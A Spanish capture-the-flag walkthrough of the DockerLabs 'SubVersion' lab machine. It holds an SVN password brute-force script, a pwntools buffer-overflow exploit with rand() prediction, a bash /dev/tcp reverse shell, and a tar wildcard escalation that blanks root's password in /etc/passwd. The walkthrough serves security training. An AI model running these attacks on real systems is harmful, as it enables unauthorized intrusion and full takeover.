

Máquina **SubVersion** de [DockerLabs](https://dockerlabs.es)

Autor: [Lenam](https://len4m.github.io/)

Dificultad: Dificil


# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Jan  8 09:12:26 2025 as: nmap -sSVC -p- --open --min-rate 5000 -n -Pn -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2025-01-08 09:12:26 -03 for 90s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 nginx 1.18.0 (Ubuntu)
|_http-title: Subversi\xC3\xB3n
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
1789/tcp open  hello?   syn-ack ttl 64
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL, RPCCheck: 
|     Bienvenido a subversion!
|     Pregunta 1: 
|     ocurri
|     Revoluci
|     Francesa?
|     Respuesta:
|   GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, SSLSessionReq: 
|     Bienvenido a subversion!
|     Pregunta 1: 
|     ocurri
|     Revoluci
|     Francesa?
|_    Respuesta: Respuesta incorrecta. No puedes continuar.
3690/tcp open  svnserve syn-ack ttl 64 Subversion
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1789-TCP:V=7.95%I=7%D=1/8%Time=677E6BB2%P=x86_64-pc-linux-gnu%r(NUL
SF:L,61,"Bienvenido\x20a\x20subversion!\nPregunta\x201:\x20\xc2\xbfEn\x20q
SF:u\xc3\xa9\x20a\xc3\xb1o\x20ocurri\xc3\xb3\x20la\x20Revoluci\xc3\xb3n\x2
SF:0Francesa\?\nRespuesta:\x20")%r(GenericLines,8C,"Bienvenido\x20a\x20sub
SF:version!\nPregunta\x201:\x20\xc2\xbfEn\x20qu\xc3\xa9\x20a\xc3\xb1o\x20o
SF:curri\xc3\xb3\x20la\x20Revoluci\xc3\xb3n\x20Francesa\?\nRespuesta:\x20R
SF:espuesta\x20incorrecta\.\x20No\x20puedes\x20continuar\.\n")%r(GetReques
SF:t,8C,"Bienvenido\x20a\x20subversion!\nPregunta\x201:\x20\xc2\xbfEn\x20q
SF:u\xc3\xa9\x20a\xc3\xb1o\x20ocurri\xc3\xb3\x20la\x20Revoluci\xc3\xb3n\x2
SF:0Francesa\?\nRespuesta:\x20Respuesta\x20incorrecta\.\x20No\x20puedes\x2
SF:0continuar\.\n")%r(HTTPOptions,8C,"Bienvenido\x20a\x20subversion!\nPreg
SF:unta\x201:\x20\xc2\xbfEn\x20qu\xc3\xa9\x20a\xc3\xb1o\x20ocurri\xc3\xb3\
SF:x20la\x20Revoluci\xc3\xb3n\x20Francesa\?\nRespuesta:\x20Respuesta\x20in
SF:correcta\.\x20No\x20puedes\x20continuar\.\n")%r(RTSPRequest,8C,"Bienven
SF:ido\x20a\x20subversion!\nPregunta\x201:\x20\xc2\xbfEn\x20qu\xc3\xa9\x20
SF:a\xc3\xb1o\x20ocurri\xc3\xb3\x20la\x20Revoluci\xc3\xb3n\x20Francesa\?\n
SF:Respuesta:\x20Respuesta\x20incorrecta\.\x20No\x20puedes\x20continuar\.\
SF:n")%r(RPCCheck,61,"Bienvenido\x20a\x20subversion!\nPregunta\x201:\x20\x
SF:c2\xbfEn\x20qu\xc3\xa9\x20a\xc3\xb1o\x20ocurri\xc3\xb3\x20la\x20Revoluc
SF:i\xc3\xb3n\x20Francesa\?\nRespuesta:\x20")%r(DNSVersionBindReqTCP,61,"B
SF:ienvenido\x20a\x20subversion!\nPregunta\x201:\x20\xc2\xbfEn\x20qu\xc3\x
SF:a9\x20a\xc3\xb1o\x20ocurri\xc3\xb3\x20la\x20Revoluci\xc3\xb3n\x20France
SF:sa\?\nRespuesta:\x20")%r(DNSStatusRequestTCP,61,"Bienvenido\x20a\x20sub
SF:version!\nPregunta\x201:\x20\xc2\xbfEn\x20qu\xc3\xa9\x20a\xc3\xb1o\x20o
SF:curri\xc3\xb3\x20la\x20Revoluci\xc3\xb3n\x20Francesa\?\nRespuesta:\x20"
SF:)%r(Help,8C,"Bienvenido\x20a\x20subversion!\nPregunta\x201:\x20\xc2\xbf
SF:En\x20qu\xc3\xa9\x20a\xc3\xb1o\x20ocurri\xc3\xb3\x20la\x20Revoluci\xc3\
SF:xb3n\x20Francesa\?\nRespuesta:\x20Respuesta\x20incorrecta\.\x20No\x20pu
SF:edes\x20continuar\.\n")%r(SSLSessionReq,8C,"Bienvenido\x20a\x20subversi
SF:on!\nPregunta\x201:\x20\xc2\xbfEn\x20qu\xc3\xa9\x20a\xc3\xb1o\x20ocurri
SF:\xc3\xb3\x20la\x20Revoluci\xc3\xb3n\x20Francesa\?\nRespuesta:\x20Respue
SF:sta\x20incorrecta\.\x20No\x20puedes\x20continuar\.\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  8 09:13:56 2025 -- 1 IP address (1 host up) scanned in 89.66 seconds
```

tenemos 3 puertos abiertos:
•`Puerto 80: Nginx 1.18.0`

•`Puerto 1789: Desconocido`

•`Puerto 3690: svnserver`

### Puerto 80

Si vamos a la web, no veremos nada interesante, pero podemos intentar hacer fuzzing web:

```css
gobuster dir -u "http://172.17.0.2" -w directory-list-2.3-medium.txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 200) [Size: 163]
Progress: 118525 / 220560 (53.74%)
===============================================================
Finished
===============================================================
```

tenemos un archivo "upload", el cual si descargamos dice lo siguiente:

```css
¡Por aquí no es! ¿No viste al conejo? Iba con un mosquete y una boina revolucionaria... 
Pero con svnuser quizá puedas hacer algo en el repositorio subversion.
```

como vemos en el mensaje, nos dice que tendremos que fijarnos en el svnserver usando el usuario "svnuser" y en el repositorio "subversion".

### Puerto 3590

Si intentamos listar el repositorio nos pedirá una contraseña:

```css
svn list svn://172.17.0.2/subversion --username svnuser
```

```css
Reino de autentificación: <svn://172.17.0.2:3690> a073d24b-9572-4dee-bc6c-1dd0b855a29c
Clave de 'svnuser': 
```

por lo que tendremos que crear un script el cual nos permita hacer fuerza bruta para poder obtener la contraseña.

### SVN Brute Force

Continuaremos creando un script en bash con el siguiente contenido:

```bash
#!/bin/bash

wordlist=$1
ip=$2


if [ $# != 2 ]; then
  echo -e "Uso: $0 <WORDLIST> <IP>"
  exit 1
fi


if [ "$(ls $wordlist)" != "$wordlist" ]; then
  echo "El archivo no existe o no se puede acceder"
  exit 1
fi


intentos=0
lineas=$(wc -l $wordlist | awk '{print $1}')


host="svn://$ip/subversion"
while read -r pass; do
    intentos=$(($intentos+1))
    svn checkout $host --username "svnuser" --password "$pass" &>/dev/null
    if [ $? -eq 0 ]; then
        echo "Contraseña: $pass"
        exit
    fi
    echo -ne "$intentos/$lineas\r"
done < "$wordlist"
```

y lo ejecutamos:

```css
bash force.sh <WORDLIST> 172.17.0.2
```

```css
Contraseña: iloveyou!
```

perfecto, ya tenemos la contraseña: "iloveyou!"

Cuando el script termine, nos dejará el repositorio en el mismo directorio.

Dentro del repositorio, podremos ver dos archivos:

```css
subversion
subversion.c
```

# Intrusión

### Buffer Overflow

Si vemos el codigo en C, podremos ver el siguiente flujo:

```css
1. El programa comienza mostrando un mensaje de bienvenida y luego hace preguntas al usuario

2. Si el usuario responde correctamente todas las preguntas, se genera un número aleatorio y el usuario debe adivinarlo

3. Si adivina el número correctamente, se le pide que ingrese un "texto mágico", y luego se muestra lo que escribió

4. Las respuestas del usuario son normalizadas (se eliminan espacios, saltos de línea, y se convierten a minúsculas)

5. Si alguna respuesta es incorrecta, el programa termina mostrando un mensaje de error
```

ademas, podremos notar que tenemos todas las respuestas de las preguntas y que hay una función la cual nunca es llamada.

Al ejecutar el binario, veremos que es imposible adivinar el nímero normalmente ya que el programa genera el número de manera aleatoria usando el tiempo actual mezclado con `69` como semilla, y luego lo limita a un rango de 0 a 9999999:

```css
Bienvenido a subversion!
Pregunta 1: ¿En qué año ocurrió la Revolución Francesa?
Respuesta: 1789
Pregunta 2: ¿Cuál fue el nombre del movimiento liderado por Mahatma Gandhi en la India?
Respuesta: satyagraha
Pregunta 3: ¿Qué evento histórico tuvo lugar en Berlín en 1989?
Respuesta: caidadelmuro
Pregunta 4: ¿Cómo se llama el documento firmado en 1215 que limitó los poderes del rey de Inglaterra?
Respuesta: cartamagna
Pregunta 5: ¿Cuál fue el levantamiento liderado por Nelson Mandela contra el apartheid?
Respuesta:   luchacontraelapartheid
Pregunta extra: Adivina el número secreto para continuar (entre 0 y 9999999):
Respuesta: 345345
Respuesta incorrecta. No puedes continuar.
```

sabiendo esto empezaremos a crear nuestro exploit que responda a todas las preguntas:

```python
#!/usr/bin/env python3

from pwn import *


def exploit():

    binario = './subversion'
    p = process(binario)


    p.recvuntil(b"Respuesta:")
    p.sendline(b"1789")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"satyagraha")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"caidadelmurodeberlin")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"cartamagna")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"luchacontraelapartheid")


if __name__ == '__main__':
    exploit()

```

Con este exploit podremos responder las preguntas de manera automática, pero ahora debemos lograr generar el numero aleatorio exacto:

```python
#!/usr/bin/env python3

from pwn import *
import ctypes


def exploit():

    binario = './subversion'
    p = process(binario)


    p.recvuntil(b"Respuesta:")
    p.sendline(b"1789")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"satyagraha")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"caidadelmurodeberlin")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"cartamagna")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"luchacontraelapartheid")


    seed = int(time.time()) ^ 69
    libc = ctypes.CDLL("libc.so.6")
    libc.srand(seed)
    random_number = libc.rand() % 10000000
    random_number = int(random_number)
    random_bytes = bytes(str(random_number), 'utf-8')


    p.recvuntil(b"Respuesta:")
    p.sendline(random_bytes)


if __name__ == '__main__':
    exploit()

```

Este exploit logra generar el numero aleatorio.

Ahora vamos a intentar llamar la función shell del binario, ya que si recordamos nunca es llamada y la máquina tiene este binario funcionando por el puerto 1789, por lo que podríamos obtener una shell por ese lado. Para hacerlo primero necesitamos saber cual es la dirección de la función, y para esto usaremos `gdb`:

```css
gdb -q subversion
```

```css
pwndbg> disassemble shell
Dump of assembler code for function shell:
   0x00000000004017ac <+0>:	endbr64
   0x00000000004017b0 <+4>:	push   rbp
   0x00000000004017b1 <+5>:	mov    rbp,rsp
   0x00000000004017b4 <+8>:	lea    rdi,[rip+0xba0]        # 0x40235b
   0x00000000004017bb <+15>:	call   0x401100 <system@plt>
   0x00000000004017c0 <+20>:	nop
   0x00000000004017c1 <+21>:	pop    rbp
   0x00000000004017c2 <+22>:	ret
End of assembler dump.
pwndbg> 
```

en este caso usaremos la dirección "0x00000000004017b4", ya que es donde se prepara y pasa el argumento necesario al registro `rdi` antes de llamar a `system()`, lo que permite ejecutar /bin/bash.

Ahora continuaremos buscando cual es el offset, para esto utilizaremos `ghidra`:


como vemos el offset es de 64, pero nosotros pondremos 72 porque hay un desplazamiento de 8 bytes debido a que el binario es de 64 bits.

Finalmente, el exploit quedaría asi:

```python
#!/usr/bin/env python3

from pwn import *
import ctypes


def exploit():

    binario = './subversion'
    p = process(binario)


    p.recvuntil(b"Respuesta:")
    p.sendline(b"1789")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"satyagraha")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"caidadelmurodeberlin")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"cartamagna")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"luchacontraelapartheid")


    seed = int(time.time()) ^ 69
    libc = ctypes.CDLL("libc.so.6")
    libc.srand(seed)
    random_number = libc.rand() % 10000000
    random_number = int(random_number)
    random_bytes = bytes(str(random_number), 'utf-8')


    p.recvuntil(b"Respuesta:")
    p.sendline(random_bytes)

    

    offset = 72
    buffer = b"A"*offset
    funcion = p64(0x4017b4)
    payload = buffer + funcion

    p.recvuntil(b"continuar: ")
    p.sendline(payload)


    p.interactive()


if __name__ == '__main__':
    exploit()

```

Lo probamos y quedamos con una shell:


ahora simplemente nos quedaría reemplazar una parte del exploit para que en vez de procesar el binario que se encuentra en el directorio se conecte a la máquina donde también se encuentra el mismo:

```python
#!/usr/bin/env python3

from pwn import *
import ctypes


def exploit():


    host='172.17.0.2'
    port='1789'

    p = remote(host, port)


    p.recvuntil(b"Respuesta:")
    p.sendline(b"1789")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"satyagraha")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"caidadelmurodeberlin")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"cartamagna")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"luchacontraelapartheid")


    seed = int(time.time()) ^ 69
    libc = ctypes.CDLL("libc.so.6")
    libc.srand(seed)
    random_number = libc.rand() % 10000000
    random_number = int(random_number)
    random_bytes = bytes(str(random_number), 'utf-8')


    p.recvuntil(b"Respuesta:")
    p.sendline(random_bytes)

    

    offset = 72
    buffer = b"A"*offset
    funcion = p64(0x4017b4)
    payload = buffer + funcion

    p.recvuntil(b"continuar: ")
    p.sendline(payload)


    p.interactive()


if __name__ == '__main__':
    exploit()

```

Lo ejecutamos y recibimos una shell como luigi:



# Escalada De Privilegios

### Luigi

Para tener una shell cómoda, nos pondremos a la escucha con netcat en el puerto 443:

```css
sudo nc -nlvp 443
```

y ejecutaremos lo siguiente en la máquina:

```css
echo 'bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"' | bash
```

luego de recibir la shell realizamos un tratamiento de la tty.

Luego de revisar un rato, encuentro una tarea cron que ejecuta un script que crea un backup de la home de luigi:

```css
luigi@f66ddfb13d6e:/$ cat /usr/local/bin/backup.sh 
#!/bin/bash
mkdir -p /backups
cd /home/luigi/
tar -czf /backups/home_luigi_backup.tar.gz *
luigi@f66ddfb13d6e:/$ 
```

viendo el script, busco como escalar y veo que puedo escalar con un ["Wildcards with tar"](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa).

Para esto, primero debemos buscar como escalar con tar:

```css
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

de este comando solo nos interesa lo siguiente:

```css
--checkpoint=1 --checkpoint-action=exec=/bin/sh
```

luego crearemos tres archivos en la home de luigi, uno llamado "--checkpoint=1", otro llamado "--checkpoint-action=exec=sh script.sh" y finalmente uno llamado script.sh que ejecute algo que nos permita escalar a root.

En mi caso, este es el oneliner que creé el cual hace todo esto:

```css
cd /home/luigi/ && echo "sed -i 's/root:x:/root::/g' /etc/passwd" > script.sh && chmod +x script.sh && echo "" > --checkpoint=1 && echo "" > '--checkpoint-action=exec=sh script.sh' && sleep 30 && su
```

### Root


Gracias por leer ;)